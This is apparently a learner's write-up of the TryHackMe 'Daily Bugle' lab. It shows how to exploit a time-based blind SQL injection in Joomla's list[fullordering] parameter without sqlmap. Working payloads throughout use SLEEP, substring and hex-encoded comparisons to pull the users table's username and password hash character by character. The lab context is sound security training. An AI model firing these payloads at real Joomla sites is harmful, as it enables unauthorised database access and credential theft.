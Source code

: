 # The Daily Bugle Room

### Introduction

I tried doing this room without `sqlmap` as OSCP does not allow it in the exam. I wanted to see at least how you can take advantage of the blind sql injecion. 

All the write-ups for this room were using sqlmap and I will discuss how I did it without it. This will possibly help you as I could not find a straight forward guide on this exact setup.

### Diving into the SQLi
So we know the Joomla version and we have an exploit for it.

```
Parameter: list[fullordering] (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (DUAL)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(CASE WHEN (1573=1573) THEN 1573 ELSE 1573*(SELECT 1573 FROM DUAL UNION SELECT 9674 FROM DUAL) END)

    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6600 FROM(SELECT COUNT(*),CONCAT(0x7171767071,(SELECT (ELT(6600=6600,1))),0x716a707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu)
```

Searched the internet I could not find the exact way to leverage this info. Running `list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu)` takes 5 seconds to return data, which means we can test queries. Playing with  the query `list[fullordering]=xxxx` yelds `Unknown column 'xxxx' in 'order clause'` and a 500 response. Now I know there is an **order by** statement there and that a correct query would return 200 and display an error. 

I am now trying to construct the original query using https://sqliteonline.com/ to test it.

```
SELECT 1 FROM demo ORDER BY 2;
```

**ORDER BY** takes selects as input as long as the select returns one column. Step by step I am going to build a query that will take longer when we have true statements. `SLEEP()` usually returns a 0 I am not sure why you can order by it but it seems to work.

```
SELECT 1 FROM demo ORDER BY (SELECT SLEEP(5) FROM demo limit 1);
```

So the query works and is delayed by 1 second. With adding of the WHERE statement we can make true/false selections.

```
SELECT 1 FROM demo ORDER BY (SELECT SLEEP(5) FROM demo limit 1);
SELECT 1 FROM demo ORDER BY (SELECT SLEEP(5) FROM demo where 1>2 limit 1); #FALSE
SELECT 1 FROM demo ORDER BY (SELECT SLEEP(5) FROM demo where 1<2 LIMIT 1); #TRUE
SELECT 1 FROM demo ORDER BY (SELECT SLEEP(5) FROM demo where (SELECT COUNT(1) FROM demo)=6 LIMIT 1); # TRUE 
SELECT 1 FROM demo ORDER BY (SELECT SLEEP(5) FROM demo where (SELECT COUNT(1) FROM demo)=5 LIMIT 1); # FALSE
```

Now we can use this to test how many rows a table has in our application. Joomla documentation shows us the default table for users. I am now using 

```
(SELECT SLEEP(5) FROM #__users where (SELECT COUNT(1) FROM #__users)=1 LIMIT 1)
```
I am not sure if we can send this directly to our browser. Let's url encode it
```
%28SELECT%20SLEEP%285%29%20FROM%20%23__users%20where%20%28SELECT%20COUNT%281%29%20FROM%20%23__users%29%3D1%20LIMIT%201%29 
```

I can now use OWASP Zap to fuzz the 1 here *%28SELECT%20COUNT%281%29%20FROM%20%23__users%29%3D**1**%20*. We can also write a script to automate this in python like we will see below.

Ok. So running the fuzzer shows a single row. Moving forward we check how many characters would the username and passwrod have.

```
(SELECT SLEEP(5) from #_users WHERE ((SELECT LENGTH(username) FROM #__users LIMIT 1 OFFSET 0))=1 limit 1)
```

Now we know how many characters we need to iterate thorugh to get the data. 
```
(SELECT SLEEP(5) from #__users WHERE substring((SELECT username FROM #__users LIMIT 1 OFFSET 0),1,1)=BINARY 0x6a limit 1)
(SELECT SLEEP(5) from #__users WHERE substring((SELECT username FROM #__users LIMIT 1 OFFSET 0),2,1)=BINARY 0x6a limit 1)
```
**LIMIT ... OFFSET ...** is used to iterate one row at a time. We do not need this for here as we have only one row in the table but might come in handy.

**substring(...,...,...)** is used to take each character at a time.

**=BINARY 0x...** is needed because Joomla did not like any '/" characters and so we switched to hex encoding. 

Extraction time. Being the password is really long we need some automation. We can do it in OWASP Zap I figure but I am not sure if it's easy to trasnfer out the data. A python script should work. :) 

I did the last part in  https://github.com/hack3rman/TryHackMe/blob/master/db-blind.py 

## Note
I just started in the security business and only have some experience as System Administrator. The guide might not be perfect but I await your input. Good luck!
